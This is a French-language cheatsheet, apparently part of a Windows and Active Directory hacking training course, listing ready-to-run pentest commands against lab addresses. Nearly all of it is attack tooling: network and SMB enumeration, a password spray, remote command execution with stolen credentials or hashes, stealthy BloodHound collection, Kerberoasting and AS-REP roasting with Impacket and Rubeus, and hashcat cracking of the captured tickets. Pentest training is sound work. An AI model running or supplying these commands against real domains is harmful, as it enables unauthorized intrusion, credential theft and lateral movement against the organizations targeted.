

repository: VBlackJack/ShellBook · page: formations/windows-hacking-mastery/cheatsheet-tools/index.html · generator: mkdocs

---
tags:
  - formation
  - cheatsheet
  - windows
  - hacking
  - tools
---

# Cheatsheet - Windows Hacking Tools

Référence rapide des commandes essentielles pour le pentest Windows/AD.

---

## Reconnaissance

### Nmap

```bash
# Scan rapide des ports AD
nmap -sS -p 53,88,135,139,389,445,636,3268,5985 192.168.56.0/24

# Scan complet avec scripts
nmap -sV -sC -p- 192.168.56.10 -oA full_scan

# Scripts AD spécifiques
nmap --script "ldap* and not brute" -p 389 192.168.56.10
nmap --script smb-enum-* -p 445 192.168.56.10
```

### CrackMapExec / NetExec

```bash
# Discovery
crackmapexec smb 192.168.56.0/24

# Enumération avec creds
crackmapexec smb 192.168.56.10 -u 'user' -p 'pass' --shares
crackmapexec smb 192.168.56.10 -u 'user' -p 'pass' --users
crackmapexec smb 192.168.56.10 -u 'user' -p 'pass' --groups
crackmapexec smb 192.168.56.10 -u 'user' -p 'pass' --pass-pol

# Password spray
crackmapexec smb 192.168.56.10 -u users.txt -p 'Password1' --continue-on-success

# Exécution de commande
crackmapexec smb 192.168.56.10 -u 'admin' -p 'pass' -x "whoami"
crackmapexec smb 192.168.56.10 -u 'admin' -H HASH -x "whoami"
```

### BloodHound

```bash
# Collecte depuis Linux
bloodhound-python -d domain.local -u user -p 'pass' -dc dc01.domain.local -c All

# Collecte depuis Windows
.\SharpHound.exe -c All
.\SharpHound.exe -c All,LoggedOn --stealth
```

---

## Attaques Kerberos

### Kerberoasting

```bash
# Impacket
GetUserSPNs.py domain.local/user:'pass' -dc-ip 192.168.56.10 -request -outputfile kerberoast.txt

# Rubeus
.\Rubeus.exe kerberoast /outfile:hashes.txt

# Cracking
hashcat -m 13100 kerberoast.txt wordlist.txt
```

### AS-REP Roasting

```bash
# Impacket
GetNPUsers.py domain.local/ -usersfile users.txt -dc-ip 192.168.56.10 -format hashcat -outputfile asrep.txt

# Rubeus
.\Rubeus.exe asreproast /format:hashcat /outfile:asrep.txt

# Cracking
hashcat -m 18200 asrep.txt wordlist.txt
```
